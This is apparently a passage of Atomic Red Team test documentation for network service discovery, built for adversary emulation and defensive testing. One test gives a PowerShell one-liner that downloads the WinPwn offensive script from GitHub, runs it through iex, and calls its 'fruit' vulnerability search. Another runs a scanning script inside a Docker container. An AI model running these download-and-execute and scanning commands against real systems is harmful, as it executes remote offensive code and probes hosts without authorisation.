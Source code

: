 

<br/>
<br/>

## Atomic Test #8 - WinPwn - fruit
Search for potentially vulnerable web apps (low hanging fruits) using fruit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bb037826-cbe8-4a41-93ea-b94059d6bb98






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
fruit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #9 - Network Service Discovery for Containers
Attackers may try to obtain a list of services that are operating on remote hosts and local network infrastructure devices, in order to identify potential vulnerabilities that can be exploited through remote software attacks. They typically use tools to conduct port and vulnerability scans in order to obtain this information.

**Supported Platforms:** Containers


**auto_generated_guid:** 06eaafdb-8982-426e-8a31-d572da633caa






#### Attack Commands: Run with `sh`! 


```sh
docker build -t t1046 /root/AtomicRedTeam/atomics/T1046/src/
docker run --name t1046_container  -d -t t1046
docker exec t1046_container ./test.sh
```

#### Cleanup Commands:
```sh
docker stop t1046_container
docker rmi -f t1046
```
